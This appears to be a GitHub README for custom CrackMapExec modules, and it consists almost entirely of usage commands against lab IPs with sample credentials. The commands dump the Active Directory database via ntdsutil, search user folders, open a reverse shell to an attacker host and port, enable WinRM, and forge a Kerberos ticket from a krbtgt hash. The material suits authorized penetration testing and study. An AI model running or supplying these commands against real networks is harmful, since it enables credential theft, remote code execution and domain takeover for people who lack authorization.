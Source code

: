 ## Usage of ntdsutil

````console
crackmapexec smb 192.168.163.144 -u 'Admin2' -p 'Password!' -M ntdsutil
````

![image](https://github.com/e1abrador/Crackmapexec-custom-modules/assets/74373745/6543c537-cada-4c08-a8b2-3c82757bee22)


## Usage of file_discovery

````console
crackmapexec smb 192.168.163.144 -u 'Admin2' -p 'Password!' -M file_discovery -o SEARCH_PATH=C:\\Users
````

![image](https://github.com/e1abrador/Crackmapexec-custom-modules/assets/74373745/550cfa76-d5ad-4d49-99ba-4fd0f052c98f)


## Usage of revshell

````console
crackmapexec smb 192.168.163.144 -u 'Admin2' -p 'Password!' -M reverse_shell -o LHOST=192.168.163.136 LPORT=1234 HTTP_SERVER=8443
````

![image](https://github.com/e1abrador/Crackmapexec-custom-modules/assets/74373745/a32ac96e-ead0-41fd-a68a-9c7abdafbcd1)


## Usage of winrm

````console
crackmapexec smb 192.168.163.142 -u Admin2 -p 'Password123!' -M winrm -o ACTION=ENABLE
crackmapexec smb 192.168.163.142 -u Admin2 -p 'Password123!' -M winrm -o ACTION=DISABLE
````

![image](https://github.com/e1abrador/Crackmapexec-custom-modules/assets/74373745/2159d3f7-e8d5-4e7b-83a6-d70f9d298aec)


## Usage of gettgt

````console
crackmapexec smb 192.168.246.139 -u subadmin -p Password123\! -M gettgt -o KRBTGT_NTLM=70a415ccf57e2a3c781764a3b1beee95 TARGET_USER=Administrador
````

![image](https://github.com/e1abrador/Crackmapexec-custom-modules/assets/74373745/ef907956-5380-4d6a-baa2-fb5500468985)

